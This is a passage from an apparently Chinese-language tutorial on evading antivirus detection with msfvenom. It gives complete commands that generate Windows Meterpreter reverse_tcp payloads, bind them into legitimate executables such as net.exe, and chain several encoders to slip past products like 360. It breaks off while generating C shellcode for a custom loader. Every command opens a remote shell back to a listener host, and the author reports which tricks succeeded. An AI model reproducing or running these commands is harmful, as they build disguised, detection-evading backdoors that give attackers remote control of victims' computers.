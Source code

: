 ##### 效果:

![image-20200115103918128.png](https://ae01.alicdn.com/kf/U595ff8aa1a824cb09f347b5b53806faci.png)

可以看到跟原文件是一毛一样的,运行测试:

![image-20200115103929860.png](https://ae01.alicdn.com/kf/Ua86967f727134c3680eaa34a231f3d0f6.png)

可以正常上线,但是为什么运行程序后不会正常打开原文件?     基本的杀软也都会拦截.

#### 3、捆绑加编码:

将前面的俩种方法结合:

##### 案例:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.223 LPORT=9999 -e x86/shikata_ga_nai -x net.exe  -i 30 -f exe -o payload3.exe
```

##### 效果:

![image-20200115111509247.png](https://ae01.alicdn.com/kf/U4fe58d8b79f94c3fbed271b6283564b6N.png)

可以正常上线,但还是会被杀.切换模板文件为微软自带的一些exe文件会不容易被360杀(测试过几次)

#### 4、多重编码处理:

使用管道让msfvenom使用不同的编码器进行编码:

##### 案例:

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=192.168.1.223 LPORT=3333 -f raw | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 10 -x net.exe -f exe > payload4.exe

解释:
使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码20次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload4.exe为模板的可执行文件。
```

##### 效果:

就是根本无法运行,尴尬了,这也是不怎么用这个的原因吧

#### 5、生成c语言的shellcode

生成一段c语言的shellcode,然会写加载器加载,最后编译成exe

##### 案例:

###### (1) 生成shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=192.168.1.223 LPORT=3333 -e x86/shikata_ga_nai -i 15 -b '\x00\'  -f c -o payload.c
```
